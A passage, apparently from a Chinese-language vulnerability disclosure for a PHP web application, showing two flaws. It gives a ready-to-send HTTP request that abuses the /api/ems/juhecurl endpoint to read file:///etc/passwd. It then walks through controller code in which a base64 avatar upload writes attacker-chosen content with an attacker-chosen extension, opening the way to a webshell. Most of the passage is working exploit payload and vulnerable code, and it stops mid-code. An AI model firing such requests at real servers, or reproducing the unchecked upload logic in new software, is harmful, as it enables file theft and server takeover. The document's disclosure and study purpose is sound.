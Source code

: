 ```
  return $response;
}
```  
  
Payload:  
```
GET /api/ems/juhecurl?url=file:///etc/passwd HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```  
读取数据库(需绝对路径):## 0x03 前台任意文件上传漏洞  
##   
注意 这里需要登录，普通用户权限即可 访问 /index/user 可直接注册登录.  
**位于 /api/controller/User.php 控制器中的 avatar 方法 通过input()函数POST传入base64参数，然后进入了base64_image_content 方法，我们追踪一下.**  
```
/**
* 上传头像
*/
public function avatar()
{
  if(input('base64')){
    return action('api/common/base64_image_content');
  }
  return action('api/common/uploadavatar');
}
```  
最终在 /api/controller/Common.php 控制器中找到该方法. 其通过POST传入base64之后，直接将解码后的文件通过File_put_contents() 函数写入到 /uploads/时间/rand(10000, 99999).php 中.```
/**
* 上传头像base64
* @ApiMethod (POST)
* @param File $file 文件流
*/
public function base64_image_content(){
  //匹配出图片的格式
  $base64_image_content=input('base64');
  if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $base64_image_content, $result)){
    $type = $result[2];
    $timeYmd=date('Ymd',time());
    $new_file = ROOT_PATH . '/public/uploads/'.$timeYmd."/";//本地目录
    if(!file_exists($new_file)){
      //检查是否有该文件夹，如果没有就创建，并给予最高权限
      mkdir($new_file, 0700);
    }
    $filename = Md5(date('ymdh', time()) . rand(10000, 99999)).".{$type}";//文件名字
    $uploadDir="/uploads/".$timeYmd."/".$filename;//文件地址保存数据库 相对地址
    if (file_put_contents($new_file.$filename, base64_decode(str_replace($result[1], '', $base64_image_content)))){
      $rowUser = model('User')->get($this->auth->id);
      if (!$rowUser) {
        $this->error(__('No Results were found'));
      }
      $rowUser->allowField(true)->save(['avatar'=>$uploadDir]);
      $this->success(__('Upload successful'), [
                     'url' => $uploadDir